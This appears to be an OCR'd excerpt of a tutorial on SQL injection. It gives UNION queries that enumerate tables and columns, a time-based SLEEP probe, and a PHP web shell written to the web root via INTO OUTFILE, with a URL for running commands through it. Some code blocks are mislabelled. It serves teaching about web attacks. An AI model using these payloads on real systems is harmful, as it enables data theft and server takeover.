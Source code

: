 First, it’s useful to gain information about the **structure** of the **database**.

To start with, you need to determine the database software and its structure.

Some common commands for querying the version type are `@@version` for Microsoft SQL Server and MySQL, `version()` for PostgreSQL, and `v$version` for Oracle.

This query in MySQL will show you the table names of user-defined tables:

```ruby
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, table_name FROM information_schema.tables
```

And this one will show you the column names of the specified table. In this case, the query will list the columns in the Users table:

```ruby
SELECT Title, Body FROM Emails
WHERE Username='vickie'
UNION SELECT 1, column_name FROM information_schema.columns
WHERE table_name = 'Users'
```

For instance, you can determine a database’s version with a time-based technique like so:

```ruby
SELECT * FROM PremiumUsers WHERE Id='2'
UNION SELECT IF(SUBSTR(@@version, 1, 1) = '1', SLEEP(10), 0); --
```

.

.

## Gain a Web Shell

The following piece of PHP code will take the request parameter named **cmd and execute it as a system command**:

```php
<? system($_REQUEST['cmd']); ?>
```

For example, you can write the password of a nonexistent user and the PHP code
<? system($_REQUEST['cmd']); ?> into a file located at /var/www/html/shell.php on the target server:

```php
SELECT Password FROM Users WHERE Username='abc'
UNION SELECT "<? system($_REQUEST['cmd']); ?>"
INTO OUTFILE "/var/www/html/shell.php"
```

Since the password of the nonexistent user will be blank, you are essentially uploading the PHP script to the shell.php file. Then you can simply access your shell.php file and execute any command you wish:

```
http://www.example.com/shell.php?cmd=COMMAND
```
